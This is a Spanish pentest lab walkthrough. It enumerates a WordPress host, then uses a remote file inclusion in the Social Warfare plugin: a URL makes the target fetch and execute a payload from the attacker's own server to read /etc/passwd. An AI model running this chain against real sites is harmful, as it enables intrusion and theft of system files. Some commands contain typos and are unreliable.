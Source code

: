 **-oN** exporta a un formato nmap que es idonea para guardar en un archovo exactamente lo que e reporta nmap

Al ver el puerto 80 abierto le ejecutaremos un script especifico para enumerar los archivos en el servidor y lo hacemos con nmap

**nmap --script http-enum -p80 192.168.1.12**

Al realizar el scan encontramos un worldpres y realizamos un **whatweb** para ver si obtenemos mas informacion

whatweb http://192.168.1.12

**`whatweb`** es una herramienta de **reconocimiento web** (web reconnaissance) utilizada principalmente en **pentesting** (pruebas de penetración) y **auditorías de seguridad** para identificar **tecnologías y servicios** que utiliza un sitio web.

Nos vamos al navegador y vemos un sitio web el cual intentaremos acceder a los directorios detectados en el scan anterior

**wordpress/**

**wordpress/login.php**

**ademas intentaremos**

**wordpress/wp-content**

**wordpress/wp-content/plugins** que son directorios comunes de worldpress y además son muy buenos vectores de entrada

Mas adelante hacemos un culr a la pagina para ver los plugins que realmente esta utilizando

**curl -s -X "http://192.168.1.12/worldpress" | grep -oP "/plugins/\**K[^.*/]+" | sort -u**

nos instalamos searchexploit para hacer busqueda de exploit desde la consola **sudo apt -y install exploitdb** y realizamos una busqueda de exploit del plugin encontrado que es warfare de worldpress

**searchexploit warfare**

Revisando los conceptos del script vemos que nos indica agregar una sentencia a la url del wordpres y insertarle codigo, en este caso para que envie una peticion a un servidor de nuestra propiedad y ejecute codigo que le enviemos en la respuesta para esto nos crearemos un servidor cm python3 para hacer pruebas

**python3 -m http.server 80**

Investigamos como el script que descargamos y nos da unas referencias en github donde nos explican un poco de que va en el cual nos pide crear un fichero **payload.txt** al cual le agregaremos la siguiente linea 

<pre>system('cat /etc/passwd')</pre>

y volvemos a levantar el servidor de python y llamamos desde la url de worlpress a este fichero

http://192.168.1.12/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.1.97/payload.txt

esto nos devuelve el contenido del fichero passwd del servidor objetivo , verificamos si realmente la info viene de alli cambiando el comando en el payload para ver las ip del servidor y verificar que no son las de uestro equipo
